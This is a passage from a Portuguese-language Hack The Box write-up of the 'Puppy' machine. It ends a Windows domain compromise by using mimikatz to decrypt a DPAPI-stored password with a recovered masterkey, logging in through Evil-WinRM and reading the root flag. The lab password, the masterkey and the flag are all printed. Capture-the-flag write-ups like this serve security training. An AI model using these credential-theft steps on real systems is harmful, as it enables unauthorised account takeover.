  sha1: 469928729f9405d7ba46a22de53071b2e1d81fb9

[domainkey] with RPC
[DC] 'PUPPY.HTB' will be the domain
[DC] 'DC.PUPPY.HTB' will be the DC server
  key : d9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84
  sha1: 3c3cf2061dd9d45000e9e6b49e37c7016e98e701

mimikatz(commandline) # exit
Bye! 
```

Lugares comuns onde arquivos protegidos ficam armazenados são:

- **`C:\Users\username\AppData\Roaming\Microsoft\Protect\*`**
- **`C:\Users\username\AppData\Roaming\Microsoft\Credentials\*`**
- **`C:\Users\username\AppData\Roaming\Microsoft\Vault\*`**

Pode-se trocar **`\Roaming`** por **`\Local`** também.

Nesse caso o arquivo estava armazenado em **`C:\Users\steph.cooper\appdata\roaming\microsoft\credentials`**. Usando o **`Mimikatz`**, consegui as credenciais do usuário **`steph.cooper_adm`**.

```bash title="steph.cooper_adm : FivethChipOnItsWay2025!" {31,32}
*Evil-WinRM* PS C:\Users\steph.cooper\appdata\roaming\microsoft\credentials> c:\temp\mimikatz.exe "dpapi::cred /in:C:\Users\steph.cooper\AppData\roaming\microsoft\credentials\C8D69EBE9A43E9DEBF6B5FBD48B521B9 /masterkey:d9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84" exit

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/
  
---<SNIPED>---

Decrypting Credential:
 * masterkey     : d9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84
**CREDENTIAL**
  credFlags      : 00000030 - 48
  credSize       : 000000c8 - 200
  credUnk0       : 00000000 - 0

  Type           : 00000002 - 2 - domain_password
  Flags          : 00000000 - 0
  LastWritten    : 3/8/2025 3:54:29 PM
  unkFlagsOrSize : 00000030 - 48
  Persist        : 00000003 - 3 - enterprise
  AttributeCount : 00000000 - 0
  unk0           : 00000000 - 0
  unk1           : 00000000 - 0
  TargetName     : Domain:target=PUPPY.HTB
  UnkData        : (null)
  Comment        : (null)
  TargetAlias    : (null)
  UserName       : steph.cooper_adm
  CredentialBlob : FivethChipOnItsWay2025!
  Attributes     : 0

mimikatz(commandline) # exit
Bye! 
```

Com as credenciais pude logar como **`steph.cooper_adm`** e conseguir a flag do root.

```bash
┌──(kali㉿kali)-[~/Boxes/Hackthebox/Medium/Puppy]
└─$ evil-winrm -i puppy.htb -u 'steph.cooper_adm' -p 'FivethChipOnItsWay2025!'


Evil-WinRM shell v3.7

Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\steph.cooper_adm\Documents>
*Evil-WinRM* PS C:\Users\steph.cooper_adm\Documents> ls c:/users/administrator/desktop


    Directory: C:\users\administrator\desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-ar---         5/19/2025  11:13 PM             34 root.txt


*Evil-WinRM* PS C:\Users\steph.cooper_adm\Documents> cat c:/users/administrator/desktop/root.txt
14fa1bfb68fb535b6f1c5b7eb6a29a65
```

---

## Conclusão

![[PuppyFinal.png | Mesma imagem do início, mas abaixo está escrito: Puppy has been pwned]]

Essa máquina foi super divertida e desafiadora. Até mesmo meu problema com o **`Bloodhound`** serviu de aprendizado para entender como a ferramenta "liga os pontos", por assim dizer, e traz resultados precisos na tela. Obviamente não é produtivo fazer tudo "na mão", afinal, se existe ferramenta pra isso é melhor usar. Também aprendi bastante sobre **`DPAPI`** e como atores maliciosos roubam senhas no **`Windows`**. 

